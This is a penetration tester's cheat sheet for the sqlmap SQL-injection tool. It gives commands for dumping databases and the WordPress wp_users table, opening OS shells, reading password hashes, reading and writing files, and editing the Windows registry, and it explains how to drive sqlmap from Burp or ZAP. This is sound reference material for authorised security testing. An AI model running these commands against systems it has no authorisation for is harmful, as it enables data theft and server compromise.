 ```yaml
---
title: SQLMap 
category: Web Application
order: 98
---
```


> **SQLMap Command**

{% highlight bash %}
sqlmap.py -u "url" --cookie="cookie" --proxy "proxy"  --batch

#Count Rows
./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 --count -D sqli -T Customers

#Shell
./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 --os-shell

#Dump Tables
sqlmap.py -I rawrequest2.raw --tables
sqlmap.py -l rawrequest2.raw --dump -D wordpress -T wp_users
{% endhighlight %}

> **SQL Map Switches**

**Common switches:**

Discover SQL injection | <code> -u </code> 
Spider the site | <code> --crawl </code> 
Target forms for injection | <code> --forms </code>
Tell sqlmap the database | <code> --dbms </code> 
Capture HTTP Request or proxy log as starting point | <code> -r/-l </code> 
Manually set cookies | <code> --cookie (e.g., --cookie 'SESSID=42') </code>
Have sqlmap go through Burp/ZAP or another proxy | <code> --proxy (e.g., --proxy http://127.0.0.1:8081) </code>
Change User Agent (Default is sqlmap/#.#) | <code> --user-agent </code> 
Proved Referer <br> *WAFs may validate this (better way is use existing request -r or via a proxy)* | <code> --referer </code> 

**DB Enumeration:**

Dump the entire DMBS database | <code> --schema </code> 
To ignore system databases | <code> --exclude-sysdbs </code> 
Select database, table or Columns <br> *Be more tactical* | <code> --dbs/--tables/--columns  </code>  <br> -D/-T can be coupled with the above switch for example, list only tables in the Customer DB (-D Customer --tables)
Dump all data && metadata (scary!) | <code> --all </code> 
Count (No data exfiltrated) | <code> --count </code> 
Steals data given constraints | <code> --dump (e.g., -D Orders -T Customers --dump) </code> 
Exfiltrates all table data | <code> --dump-all </code> 
Scour DB/table/column for a string (e.g., pass) | <code> --search </code> 

**Beyond DB exfil:**

Enumerate DB user accounts | <code> --users </code> 
Show DB user account hashes | <code> --passwords </code>
Download files to attack the system | <code> --file-read </code> 
Upload files to the DB system | <code> --file-write </code>
Read/Write Windows registry keys | <code> --reg-read/--reg-write </code> 
Add/Delete Windows registry keys | <code> --reg-add/--reg-del </code> 

**Post Exploitation:**

Escalate Priv | <code> --priv-esc </code>
SQL Query | <code> --sql-query/--sql-shell </code>
OS Commands | <code> --os-cmd/--os-shell </code>
OS Pwn | <code> --os-pwn </code>

> **SQLMap with Burp/ZAP**

**Start SQLMap based on ZAP:**
1. Navigate to field with SQL injection (one that has no errors or SQL injection) -> right click on request -> save RAW
2. ./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 


**Start SQLMap based on Burp:**
1. Navigate to request with SQL injection (one that has no errors or SQL injection) -> right click on request -> copy to file
2. ./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081

**Run SQLMap in Zap**
1. tools -> optins -> applications -> add  -> 
* sqlmap
* navigate to sqlmap 
* as is
* -u %url% --cookie=%cookie% --batch
* capture output and note
* enabled
2. Right click on request in history -> run application -> SQLMap
3. Right click on request in history -> view note
4. Set up for each function you do frequently (e.g., tables, count, read file) 


